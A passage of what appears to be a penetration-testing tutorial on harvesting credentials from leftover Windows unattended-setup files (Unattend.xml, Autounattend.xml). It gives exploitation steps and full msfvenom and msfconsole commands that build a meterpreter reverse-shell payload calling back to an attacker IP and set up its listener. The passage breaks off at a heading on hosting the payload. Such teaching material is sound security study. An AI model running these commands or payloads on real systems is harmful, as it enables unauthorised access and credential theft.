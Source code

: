 ```
!PassW0RD321@ -> MD4 == "NTLM hash"
```

##### Windows Configuration Files  

Windows can automate repetitive tasks, like mass installations, using the Unattended Windows Setup utility. This tool relies on configuration files that specify system settings and store credentials, including the Administrator password. If these files remain on a system after installation, they could expose credentials, allowing attackers to authenticate and access the system.

**Unattended Windows Setup**  
The Unattended Windows Setup utility uses the following configuration files that contain user account and system config information:
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`
For security, any passwords within these files may be encoded in base64.

### Search For Passwords in Windows Config Files / Unattended Installation

Exploitation Steps:
1. First gain initial access into the system with a meterpreter session
2. Next, use the meterpreter session to find the unattended xml file
3. Identify the password and decode it with a base64 utility.
4. Authenticate with the target with a tool like PsExec

##### Generate a meterpreter payload using MSFVenom

MSFVenom is used for generating payloads for a reverse shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.66.82 LPORT=4321 -f exe > payload.exe
```
- `-p` = Payload
- `-LHOST`/`LPORT` = Attack machine's IP and port
- `-f` = file type

##### Setup a listener for the payload using the multi/handler module

Next,  to setup a handler that would wait for the connection from the msfvenom payload. Set the configured payload to the one set from msfvenom. For this example, we used `windows/meterpreter/reverse_tcp`. Next, we'll need to set the `LHOST`/`LPORT` to the same one specified in the payload:

```
service postgresql start && msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.66.82
set LPORT 4321
run
```

 This will start the listener. When the payload is executed on the target it will connect back here.

##### Host a website for the payload.exe
